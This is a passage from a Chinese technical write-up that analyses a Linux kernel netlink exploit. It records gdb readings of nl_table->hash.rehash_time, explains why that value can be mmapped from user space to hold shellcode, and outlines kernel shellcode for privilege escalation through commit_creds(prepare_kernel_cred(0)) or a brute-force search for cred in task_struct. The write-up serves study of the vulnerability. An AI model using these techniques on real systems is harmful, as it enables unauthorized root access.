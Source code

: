 	static struct netlink_table *nl_table;

`struct netlink_table + 4`的位置是`nl_table->hash.rehash_time`，他表示下次重新计算hash值的时间，数据类型是jiffies值。他的值初始时候等于jiffies，之后每次变化等于`jiffies + 10 * 60 * HZ`，HZ一般等于1000。下面是我记录的几个值（由于在虚拟机中调试，中途有暂停虚拟机，期间jiffies也停止了，不过这个不重要^_^）

| 时间点      | 值（红色标注的值）                                  |
| ---------  | ------------------------------------------------ |
| 16:30      | (gdb) x/2x 0xc1a488e4 <-- nl_table指针
|            | 0xc1a488e4: 0xf5c41000 0x00000101
|            | (gdb) x/2x 0xf5c41000  <-- nl_table->hash指针
|            | 0xf5c41000: 0xf52da900 `0x00013809`
| 20:00      | (gdb) x/2x 0xf5c41000
|            | 0xf5c41000: 0xf2858360 `0x0004ae48`
| 21:30      | (gdb) x/2x 0xf5c41000
|            | 0xf5c41000: 0xf2858b60 `0x000a4ee9`
| 22:50      | (gdb) x/2x 0xf5c41000
|            | 0xf5c41000: 0xf0e6ce00 `0x0021bfa4`
| Day2,10:11 | (gdb) x/2x 0xf5c41000
|            | 0xf5c41000: 0xe9cd8080 `0x0039ff85`

大牛的exploit中把这个值认为是0x10000 – 0x130000之间即可。这里简单说明一下Linux系统上内存虚拟地址的分布情况，我们以32位系统为例: 可以寻址4G的地址空间，其中用户态使用低位的3G，即0x00000000-0xBFFFFFFF，内核使用高位的1G，即0xC0000000 – 0xFFFFFFFF。在Ring3进程只能访问用户态地址空间，在内核上下文中是可以访问全部的4G的地址范围的。经过分析nl_table->hash.rehash_time变量的值正好可以落到用户地址空里，这样我们可以用mmap映射这些地址，并将shellcode拷贝到这块内存中，等待漏洞触发。

## 0x02 内核Shellcode

这里的shellcode是在内核进程上下文中运行的。我们的目标是要修改`current->cred`，先列出两个方案。

- 方案一：使用内核函数**commit_creds**和**prepare_kernel_cred**

		commit_creds(prepare_kernel_cred(0));

这需要查找这两个函数的地址才行，不过普通账户可能没有访问/proc/kallsyms的权限，比如我的系统返回的结果如下：

	macwe@ubuntu:/root$ grep nl_table /proc/kallsyms 
	00000000 d nl_table_lock
	00000000 d nl_table_wait
	00000000 b nl_table_users
	00000000 b nl_table
	macwe@ubuntu:/root$ cat /proc/sys/kernel/kptr_restrict
	1
	/* 相关资料：http://lwn.net/Articles/420403/ */

- 方案二：暴力搜索,在`struct task_struct`中动态查找cred变量的位置并修改之。通常`real_cred`和`cred`指针是一样的，通过这一点来查找cred的内存位置。
